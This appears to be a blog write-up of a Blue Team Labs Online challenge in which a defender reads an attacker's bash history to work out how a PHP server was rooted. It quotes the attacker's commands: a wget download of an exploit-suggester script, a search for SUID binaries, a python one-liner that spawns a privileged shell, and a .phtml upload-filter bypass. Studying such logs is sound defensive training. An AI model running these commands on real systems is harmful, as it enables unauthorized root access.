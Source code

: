 ```yaml
---
title: "Log Analysis - Privilege Escalation"
categories: ["IT and Cyber Security"]
tags: ['Blue Team Labs Online']
date: 2021-08-09
---
```


[https://blueteamlabs.online/home/challenge/4](https://blueteamlabs.online/home/challenge/4)

## Contents

- [Introduction](#introduction)
- [Questions](#questions)
  - [What user (other than ‘root’) is present on the server?](#what-user-other-than-root-is-present-on-the-server)
  - [What script did the attacker try to download to the server?](#what-script-did-the-attacker-try-to-download-to-the-server)
  - [What packet analyzer tool did the attacker try to use?](#what-packet-analyzer-tool-did-the-attacker-try-to-use)
  - [What file extension did the attacker use to bypass the file upload filter implemented by the developer?](#what-file-extension-did-the-attacker-use-to-bypass-the-file-upload-filter-implemented-by-the-developer)
  - [Based on the commands run by the attacker before removing the php shell, what misconfiguration was exploited in the ‘python’ binary to gain root-level access? 1- Reverse Shell ; 2- File Upload ; 3- File Write ; 4- SUID ; 5- Library load](#based-on-the-commands-run-by-the-attacker-before-removing-the-php-shell-what-misconfiguration-was-exploited-in-the-python-binary-to-gain-root-level-access-1--reverse-shell--2--file-upload--3--file-write--4--suid--5--library-load)

## Introduction

A server with sensitive data was accessed by an attacker and the files were posted on an underground forum. This data was only available to a privileged user, in this case the ‘root’ account. Responders say ‘www-data’ would be the logged in user if the server was remotely accessed, and this user doesn’t have access to the data. The developer stated that the server is hosting a PHP-based website and that proper filtering is in place to prevent php file uploads to gain malicious code execution. The bash history is provided to you but the recorded commands don’t appear to be related to the attack. Can you find what actually happened?

## Questions

We have a single file, `bash_history`. This is, as the name suggest, the history of commands run in the terminal (bash). This challenge is simply reading through the commands and understanding what they all do.

### What user (other than ‘root’) is present on the server?

In Linux, user directories are located within `/home`. Looking through the logs, on line 21, we see:

```bash
cd /home/daniel/
```

Change directory to daniel's home folder.

> daniel

### What script did the attacker try to download to the server?

We can simply look for scripts, URLs, or methods to download things via bash. Line 32:

```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
```

> linux-exploit-suggester.sh

### What packet analyzer tool did the attacker try to use?

What's the most common packet analyser tool for the command line? Line 47:

> tcpdump

### What file extension did the attacker use to bypass the file upload filter implemented by the developer?

Here we can look for uploads for files (with file extensions). Right at the end, line 63, there is a remove command for deleting a file within an uploads folder:

```bash
rm /var/www/html/uploads/x.phtml
```

> .phtml

### Based on the commands run by the attacker before removing the php shell, what misconfiguration was exploited in the ‘python’ binary to gain root-level access? 1- Reverse Shell ; 2- File Upload ; 3- File Write ; 4- SUID ; 5- Library load

Python is mentioned on line 62:

```bash
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Immediately before this, line 61, there is a `find` command:

```bash
find / -type f -user root -perm -4000 2>/dev/null
```

This find looks for files (`-type f`) owned by root (`-user root`) with permissions of 4000 (`-perm -4000`) - relates to SUID files.

> 4
